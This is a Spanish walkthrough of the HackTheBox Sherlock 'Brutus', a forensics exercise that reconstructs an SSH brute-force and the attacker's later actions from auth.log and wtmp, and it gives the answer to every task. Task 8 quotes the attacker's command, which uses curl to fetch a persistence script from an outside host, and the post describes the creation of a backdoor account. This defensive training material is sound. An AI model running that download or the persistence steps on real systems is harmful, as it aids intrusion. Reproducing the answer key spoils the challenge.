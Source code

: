 ```yaml
---
title: "Sherlock - Brutus - Español"
summary: "Sherlock de HackTheBox sobre inicios de sesión no autorizados en un servidor Confluence.
 Se proporcionan los archivos auth.log y wtmp para la investigación."
date: "Jan 15 2025"
draft: false
tags:
- HackTheBox
- Sherlock
- Very easy
- Tutorial
- Linux Env.
- Español
---
```



<SherlockBeginningTable  lang={LANG_ES} 
  data={[
    { content: `En este Sherlock de dificultad muy fácil, te familiarizarás con los registros auth.log y wtmp de Unix. 
    Exploraremos un escenario en el que un servidor de Confluence fue atacado por fuerza bruta a través de su servicio SSH. 
    Después de obtener acceso al servidor, el atacante realizó actividades adicionales, las cuales podemos rastrear utilizando auth.log. 
    Aunque auth.log se utiliza principalmente para el análisis de fuerza bruta, profundizaremos en todo el potencial de este artefacto en nuestra investigación, 
    incluyendo aspectos de escalada de privilegios, persistencia e incluso algo de visibilidad en la ejecución de comandos.` },
    { content: "auth.log, wtmp" },
  ]} />

<div align="center">
  <img width="500px" src="/blog/sherlocks/brutus_images/Sherlock_logo.png" />
</div> 

## Tasks

---

<SherlockTask lang={LANG_ES} 
    task_number="1" 
    task_content="Analizando el auth.log, ¿puedes identificar la dirección IP utilizada por el atacante para llevar a cabo un ataque de fuerza bruta?" 
    hint_content="Buscar palabras clave asociadas con intentos de fuerza bruta puede ayudar a identificar ataques potenciales." 
    answer="65.2.161.68"/>

- Podemos buscar por las palabras clave `Invalid user` para averiguar la IP del atacante con cualquiera de estos comandos: 

<CodeBlock code={"grep \"Invalid user\" auth.log"}/>

<CodeBlock code={"cat auth.log | grep \"Invalid user\""}/>

- Los logs tienen este formato:

<CodeBlock code={"Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380"}/>

- Hay muchos intentos fallidos de inicio de sesión desde la IP 65.2.161.68 con cuentas de usuario que sugieren tener privilegios elevados (`admin`, `server_adm`, `svc_account` y `root`). Esa es la IP que buscamos.

---

<SherlockTask lang={LANG_ES} 
    task_number="2" 
    task_content="El ataque de fuerza bruta fue exitoso y el atacante ganó acceso a una cuenta en el servidor. ¿Cuál es el nombre de esa cuenta?" 
    hint_content="Busca por palabras clave que indiquen un intento de inicio de sesión válido para identificar la cuenta comprometida." 
    answer="root"/>

- Echando un vistazo al archivo `auth.log` se puede ver que se ha ganado acceso con el usuario `root` desde la IP 65.2.161.68, que es la IP del atacante como hemos dicho anteriormente.

<CodeBlock code={"Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2"}/>

- Aunque podemos filtar por las palabras clave `Accepted password`:

<CodeBlock code={"cat auth.log | grep \"Accepted password\""}/>

---

<SherlockTask lang={LANG_ES} 
    task_number="3" 
    task_content="¿Puedes identificar el timestamp correspondiente a cuando el atacante inició sesión manualmente en el servidor para llevar a cabo sus objetivos?" 
    hint_content="Es importante señalar que el primer inicio de sesión exitoso por parte del atacante fue el resultado de un intento de fuerza bruta automatizado, 
    y la sesión se cerró dentro del mismo segundo en que se estableció. Después de obtener las credenciales válidas, el atacante inició sesión manualmente, y 
    necesitamos identificar ese inicio de sesión. Utiliza el artefacto wtmp para ver el tiempo de inicio de sesión de la sesión activa y correlacionarlo con auth.log." 
    answer="2024-03-06 06:32:45"/>

- Debido a que en `auth.log` el timestamp tiene este formato `Month Day HH:mm:SS` y el formato que se pide es `YYYY-MM-DD HH:mm:SS` tenemos que buscar en el archivo `wtmp`.
- Con este comando se ven todos inicios de sesion en ese archivo:

<CodeBlock code={"utmpdump wtmp"}/>
    
- Pero podemos filtrar por el nombre de usuario con el que el atacante ganó acceso, que en este caso es lo que nos interesa:

<CodeBlock code={"utmpdump wtmp | grep 'root'"}/>

<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_3.png"/>

- Se puede apreciar que en la última línea se encuentra el inicio de sesión de la IP 65.2.161.68 con un formato similar a `YYYY-MM-DD HH:mm:SS`. Ahí está nuestra respuesta.

---

<SherlockTask lang={LANG_ES} 
    task_number="4" 
    task_content="Los inicio de sesión SSH se rastrean y se les asigna un número al iniciar sesión. ¿Cuál es el número de sesión asignado a la sesión del atacante para la cuenta de usuario de la pregunta 2?" 
    hint_content="Se asigna un número de sesión de forma automática inmediatamente después de que la contraseña sea aceptada." 
    answer="37"/>

- Teniendo en cuenta el timestamp anterior podemos buscar en `auth.log` cerca de esa hora.
- Buscamos por esa hora y esos minutos (aunque también podríamos buscar por el usuario `root`):

<CodeBlock code={"cat auth.log | grep '06:32'"}/>

<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_4.png"/>

- Vemos que un segundo antes (06:32:44) se le asigna el número 37 a la sesión del usuario `root`.

---

<SherlockTask lang={LANG_ES} 
    task_number="5" 
    task_content="El atacante agregó un nuevo usuario como parte de su estrategia de persistencia en el servidor y le otorgó a esta nueva cuenta de usuario privilegios elevados. ¿Cuál es el nombre de esta cuenta?" 
    hint_content="Auth.log también rastrea cambios relacionados con usuarios y grupos en el servidor. Busca palabras clave que indiquen adiciones de usuarios o asignaciones de privilegios." 
    answer="cyberjunkie"/>

- Revisando el archivo `auth.log` nos damos cuenta que, tras ganar acceso, el atacante crea un nuevo usuario con el nombre `cyberjunkie`, a través del comando `useradd`, con la finalidad de mantener acceso persistente en el sistema (crear una puerta trasera):
    
<CodeBlock code={"Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1"}/>

---

<SherlockTask lang={LANG_ES} 
    task_number="6" 
    task_content="¿Cuál es el ID de la sub-técnica de MITRE ATT&CK utilizado para la persistencia al crear una nueva cuenta?" 
    hint_content="Si has encontrado la respuesta a la pregunta 5, consulta la `MITRE ATT&CK enterprise matrix` para determinar el ID de sub-técnica bajo la táctica de persistencia." 
    answer="T1136.001"/>

- Para ello vamos a la URL https://attack.mitre.org y buscamos en **Persistence > Create Account > Local Account**.

---

<SherlockTask lang={LANG_ES} 
    task_number="7" 
    task_content="¿A qué hora terminó la primera sesión SSH del atacante según auth.log?" 
    answer="2024-03-06 06:37:24"/>

- Conociendo el número de sesión SSH, podemos filtrar por él de esta forma:
    
<CodeBlock code={"cat auth.log | grep 'session 37'"}/>
    
<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_7.png"/>

- La segunda línea indica la hora en que se cerró la sesión, con el estado `Removed session 37`.

---

<SherlockTask lang={LANG_ES} 
    task_number="8" 
    task_content="El atacante inició sesión en la cuenta que creó como puerta trasera y utilizó sus privilegios más altos para descargar un script. ¿Cuál es el comando completo ejecutado usando sudo?" 
    hint_content='Aunque auth.log no se utiliza típicamente para rastrear ejecuciones de comandos como auditd, los comandos ejecutados con sudo se registran en auth.log, ya que el sistema necesita autenticar los privilegios de la cuenta para otorgar permisos de nivel root para ese comando. Busca la palabra clave "COMMAND" para encontrar los comandos ejecutados usando sudo.'
    answer="/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"/>

- El sistema necesita autenticar la cuenta para dar permisos de administrador a los comandos ejecutados con `sudo`, con lo cual quedarían registrados en `auth.log`, tal y como dice la pista. Podemos filtrar por:
    
<CodeBlock code={"cat auth.log | grep \"COMMAND\""}/>
 
<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_8.png"/>   

- Una de las líneas nos muestra que se ejecutó el comando `curl` y la URL del script que se descargó el atacante.

---

<SherlockFinalContent lang={LANG_ES}/>
